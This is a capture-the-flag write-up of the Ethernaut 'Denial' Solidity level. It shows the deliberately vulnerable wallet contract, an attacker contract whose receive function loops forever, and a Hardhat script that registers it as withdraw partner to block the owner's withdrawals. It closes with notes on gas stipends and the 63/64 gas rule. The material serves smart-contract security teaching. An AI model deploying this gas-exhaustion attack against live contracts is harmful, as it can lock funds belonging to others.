 ```yaml
---
title: "Ethernaut #20 Denial"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Denial challenge writeup
---
```


## Denial

### Challenge

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Background

This challange is a bit consfusing, not in a way of solving it, but in the wording of the challenge and the setup of it. In general the final goal is to perform a denial of service attack on the `withdraw` function, however, even after peforming the attack the owner could bypass it with little to no difficulty. But in any case, this was the challange so it will be tackled.

As the comment in the challange code itself mentions, the `call` function will not `revert` the caller if the calle `revert`s. This means that we cannot perform deny the service simply by reverting. We can however, consume all the available gas and force the entire execution to `revert` with an `outOfGas` exception.

Even though I did not like the context of the challange though, I did learn something unique after finishing this challenge.

### Attack

Create a contract that will consume an infinite amount of gas when receiving funds. This can be achieved by having an infinite loop in the `receive` function. 

* Create a contract that goes into an infite loop when receiving funds.
* Set the contract as the partner

#### DenialSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

contract DenialSolve {

    constructor() public {}

    receive() external payable {
        while (true) {}
    }
}
```

#### denial-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    denialAddress = "0x8705dDC7eAD886861Cd2EF45155A5f0835A57b57";
    contract = await ethers.getContractAt("Denial", denialAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    DenialSolve = await ethers.getContractFactory("DenialSolve");
    denialSolve = await DenialSolve.deploy();
    await denialSolve.deployed();

    console.log("Level address: " + contract.address)

    // set contract as partner
    tx = await contract.connect(account).setWithdrawPartner(denialSolve.address)
    receipt = await tx.wait()
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/denial-solve.js --network rinkeby
Level address: 0x8705dDC7eAD886861Cd2EF45155A5f0835A57b57
```

### Success Message

This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

Note: An external `CALL` can use at most 63/64 of the gas currently available at the time of the `CALL`. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.

### Post Challenge

While reading the challange I noticed it mentioned that it should fail for 1M gas or less, but it seemed that this was not really a requirement. At least I could not see why. I thought that doing this is again pretty straing forward. I could simply check the remaining gas while in the loop or even pre-calculate the gas consumption and make sure it would consume at least enough to `revert` a transaction with 1M gas with an `outOfGas` exception.

Then after I read the `Success Message` I realized that the reason there is such a limit is because call will send at most 63/64 units of gas to the callee. This means that if the remaining 1/64 is enough to execute the parent code, then even with an infinite loop, the function would still succeed. This is because the inifinte loop would consume the entire 63/64 of the gas, `revert` with an `outOfGas` exception, and return execution to the caller. Since its a `call` function the revert would not happen in the caller, and since we assumed that 1/64 is enought to finish the parent execution the transaction would finish normally.
